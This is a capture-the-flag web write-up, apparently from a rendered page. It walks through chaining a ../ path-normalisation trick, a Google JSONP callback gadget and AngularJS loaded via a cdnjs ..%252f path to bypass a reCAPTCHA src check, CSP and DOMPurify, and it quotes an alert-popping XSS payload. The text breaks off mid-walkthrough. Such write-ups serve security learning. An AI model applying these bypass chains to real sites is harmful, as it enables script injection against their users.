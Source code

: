The src should start with https://www.google.com/recaptcha/, how to overcome this?

There is a subtle difference between element.src and element.getAttribute('src'), the former returns the formatted value, while the latter returns raw value:

<img src="https://example.com/abc/../test">
// img.src => https://example.com/test
// img.getAttribute('src') => https://example.com/abc/../test
By using ../, we can load any scripts from https://www.google.com.

It's easy to find a useful gadget from JSONBee: https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1

The response is like:

alert && alert(["hello",["hello kitty","hello world","hello kiki","hellolulu","hello venus","hello nico","hello bubble"],["","","","","","","",""],[],{"google:clientdata":{"bpc":false,"phi":0,"tlw":false},"google:suggestrelevance":[601,600,555,554,553,552,551,550],"google:suggestsubtypes":[[512,433],[512,433,131],[512,433,131],[512],[512,433],[512],[512],[512,433,131]],"google:suggesttype":["QUERY","QUERY","QUERY","QUERY","QUERY","QUERY","QUERY","QUERY"],"google:verbatimrelevance":1300}])
We can't run arbitrary JS because callback is restricted, it won't work if you pass something like alert(document.domain), but we have the ability to call a function with controlled arguments.

The idea is simple, we can use it to load AngularJS from cdn.js by leverage the classic ..%2f trick.

https://www.google.com/recaptcha/../complete/search?client=chrome&q=https://cdnjs.cloudflare.com/ajax/libs/dompurify/..%252fangular.js/1.8.2/angular.js%23&callback=loadScript
Response:

loadScript && loadScript(["https://cdnjs.cloudflare.com/ajax/libs/dompurify/..%2fangular.js/1.8.2/angular.js#",[],[],[],{"google:clientdata":{"bpc":false,"tlw":false},"google:suggesttype":[],"google:verbatimrelevance":1300}])
AngularJS CSP bypass
Here comes the last part of the challenge. The goal is to find an AngularJS CSP bypass and XSS without user interaction.

There is a classic payload as described in:

Bypassing path restriction on whitelisted CDNs to circumvent CSP protections - SECT CTF Web 400 writeup
H5SC Minichallenge 3: "Sh*t, it's CSP!"
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/..%252fprototype/1.7.2/prototype.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/..%252fangular.js/1.0.1/angular.js"></script>
<div ng-app ng-csp>

{{$on.curry.call().alert(1)}}

</div>
It requires no user interaction, perfect! But there are two other issues we need to address.

First, ng-app and ng-csp will be removed by DOMPurify. Second, there is no prototype.js.

For the first issue, we can use data-ng-app and data-ng-csp instead of ng-app and ng-csp, because AngularJS will normalize attribute names, and remove x- and data- prefixes.

